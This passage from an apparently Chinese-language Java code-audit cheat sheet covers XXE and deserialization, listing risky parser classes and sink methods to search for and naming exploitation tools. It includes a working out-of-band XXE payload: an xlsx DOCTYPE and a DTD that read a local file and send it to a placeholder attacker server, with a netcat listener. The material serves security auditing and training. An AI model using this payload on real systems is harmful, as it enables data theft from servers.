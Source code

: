 <hr/>
<h3>4、XXE</h3>
[【XXE漏洞专题】XXE原理、产生、检测、危害、利用、示例](https://blog.csdn.net/qq_53079406/article/details/124360287?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167074917116800213011125%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=167074917116800213011125&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-124360287-null-null.nonecase&amp;utm_term=xxe&amp;spm=1018.2226.3001.4450)

<pre><code>xlsx-streamer poi-ooxml
Documentbuilder|DocumentBuilderFactory|SAXReader|SAXParser|SAXParserFactory|SAXBuilder|TransformerFactory|reqXml|getInputStream|XMLReaderFactory|.newInstance|SchemaFactory|SAXTransformerFactory|javax.xml.bind|XMLReader|XmlUtils.get|Validator
javax.xml.parsers.DocumentBuilder
javax.xml.stream.XMLStreamReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.parsers.SAXParser
org.dom4j.io.SAXReader
org.xml.sax.XMLReader
javax.xml.transform.sax.SAXSource
javax.xml.transform.TransformerFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.validation.SchemaFactory
javax.xml.bind.Unmarshaller
javax.xml.xpath.XPathExpression
org.apache.commons.digester3.Digester</code></pre>
<pre><code>xxx.xlsx:
&lt;!DOCTYPE convert [ 
&lt;!ENTITY % remote SYSTEM "http://攻击者服务器/xxx.dtd"&gt;
%remote;%int;%send;
]&gt;
&lt;root&gt;&amp;send;&lt;/root&gt;

xxx.dtd:
&lt;!ENTITY % file SYSTEM "file:///flag"&gt;
&lt;!ENTITY % int "&lt;!ENTITY &amp;#37; send SYSTEM 'http://攻击者服务器:端口/%file;'&gt;"&gt;

攻击者服务器监听
nc -lvvp 端口</code></pre>

<hr/>
<h3>5、反序列化</h3>
序列化使用的地方：
1、参数，cookie，sesion，存储时候可能会base64，压缩后的base64、MII等加密
2、Servlets http，Sockets，Session管理器（包含的协议：JMX,RMI,JMS,JND1等）
3、xmlXstream，XmldEcoder等（http Body:Content-type: application/xml）
4、json(jackson,fastjson)http请求中包含

框架组件：fastjson，shiro，jackson，CommonsCollections等

利用工具：
jndi：可用于Fastjson、Jackson等验证<br/> ysoserial：支持多种引用库生成的payload<br/> marshalsec：可以快速启动rmi/ldap server<br/> FastjsonExploit：专门针对fastjson的exp框架
<pre><code>ObjectInputStream.readObject
ObjectInputStream.readUnshared
XMLDecoder.readObject
Yaml.load
XStream.fromXML
ObjectMapper.readValue
JSON.parseObject</code></pre>
[【PHP反序列化】PHP反序列化原理、函数、利用过程](https://blog.csdn.net/qq_53079406/article/details/124227179?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167076029616800182771040%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=167076029616800182771040&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-124227179-null-null.nonecase&amp;utm_term=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&amp;spm=1018.2226.3001.4450)